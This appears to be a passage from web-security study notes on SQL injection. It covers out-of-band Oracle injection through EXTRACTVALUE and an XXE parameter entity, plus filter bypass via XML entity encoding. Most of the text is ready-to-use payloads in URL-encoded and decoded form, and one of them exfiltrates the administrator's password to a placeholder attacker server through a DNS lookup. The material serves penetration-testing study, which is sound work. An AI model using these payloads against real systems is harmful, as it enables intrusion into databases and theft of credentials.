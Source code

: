 Here we are using a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly). An XXE payload using a parameter entity called remote is used, that will reach out to the attacker server.

For Oracle DB:

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```

The decoded version is:

```sql
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://ATTACKER-SERVER/"> %remote;]>
')
,'/1') 
FROM dual--
```

To extract data, we can use a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly). An XXE payload using a parameter entity called remote is used, that will reach out to our attacker server. The application will evaluate the SQL query before the XXE payload is executed.

For Oracle DB:

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```

The decoded version is:

```sql
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.ATTACKER-SERVER/"> %remote;]>
')
,'/1') 
FROM dual--
```
# SQLi with Filter Bypass via XML Encoding

SQL injection vectors can exist in other areas of the application such as JSON or XML inputs. This can allows us to obfuscate the payloads in different ways to bypass filters. For example:

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```
